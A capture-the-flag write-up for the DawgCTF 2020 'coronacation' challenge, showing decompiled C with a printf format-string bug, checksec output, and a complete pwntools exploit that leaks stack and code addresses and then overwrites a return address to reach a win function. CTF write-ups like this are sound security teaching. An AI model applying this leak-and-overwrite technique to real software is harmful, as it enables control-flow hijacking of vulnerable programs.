NOTE: To solve this challenge i worked with my teammate Enrico. He wrote the
exploit (python 2) first and got the flag.  
In my writeup i put an optimized exploit for python 3.

Play game:  
```c  
__int64 play_game()  
{  
 __int64 result; // rax  
 char s; // [rsp+0h] [rbp-40h]

 puts("Welcome to this choose your own adventure game!");  
 puts("You're President Ronald Drump and are tasked with leading the nation
through this crisis.");  
 puts("So what do you want to do?");  
 puts("1. Close the borders.");  
 puts("2. Tell everyone not to panic. It's just the Fake News media freaking
out.");  
 fgets(&s, 50, _bss_start);  
 printf("You chose: ", 50LL);  
 printf(&s);  
 if ( s == 49 )  
   return close_borders();  
 result = 50 - (unsigned int)(unsigned __int8)s;  
 if ( s == 50 )  
   result = no_panic();  
 return result;  
}  
```  
`Close borders` and `no panic` functions contains the same instruction, i used
close borders.

Close borders:  
```c  
__int64 close_borders()  
{  
 __int64 result; // rax  
 char s; // [rsp+0h] [rbp-40h]

 puts("\nSo we closed our borders. Weren't we doing that anyway with the
wall?");  
 puts("It's still spreading within our borders what do we do now?");  
 puts("1. Reassure everyone the country can handle this. Our healthcare system
is the best. Just the greatest.");  
 puts("2. Make it a national emergency. Show the people we don't need Bernie's
healthcare plan.");  
 fgets(&s, 50, _bss_start);  
 printf("You chose: ", 50LL);  
 printf(&s);  
 if ( s == 49 )  
   return lose3();  
 result = 50 - (unsigned int)(unsigned __int8)s;  
 if ( s == 50 )  
   result = lose4();  
 return result;  
}  
```

Checksec:  
```shell  
[*] '/home/marco/Desktop/umbccd/coronacation/coronacation'  
   Arch:     amd64-64-little  
   RELRO:    Full RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      PIE enabled  
```

In order to call win function, we need two memory leak to bypass PIE / ASLR.  
We used te first format string (play game function) to leak the rbp (stack
section leak) and return address(.text section address).  
Then with the second format string (in `close_border`), we overwrite the
return address with win address.

Exploit:  
```python  
from pwn import *

#p = remote('ctf.umbccd.io', 4300)  
p = process('./coronacation')  
print(p.recvuntil('out.\n').decode())  
payload = (('1 ').encode())  
payload += (('%14$p %15$p').encode())  
p.sendline(payload)  
print(p.recvuntil('chose: 1 ').decode())

stm = p.recvuntil('\n').decode()  
rbp = int(stm.replace('\n', "").split(' ')[0], 16)  
ret_stack = rbp-0x8  
ret = int(stm.replace('\n', "").split(' ')[1], 16)

win = ret-0x31f  
towrite = win & 0xffff  
print('to write: ', (towrite))  
print('Leaked base pointer: ', hex(rbp), 'stack address return pointer: ',
hex(ret_stack))  
print('leaked return address: ', hex(ret), ' win function at: ', hex(win))  
print(p.recvuntil('plan.').decode())

padding = '0'*(8-len(str(towrite))) + str(towrite)

payload2 = ("%" + padding + "lx%8$hn").encode()  
payload2 += p64(ret_stack)  
print(payload2)  
p.sendline(payload2)  
print(p.recvuntil('}'))

```

# FLAG  
`DawgCTF{st@y_Th3_f@ck_h0m3}`  

Original writeup
(https://github.com/Internaut401/CTF_Writeup/blob/master/2020/DawgCTF/coroncation.md).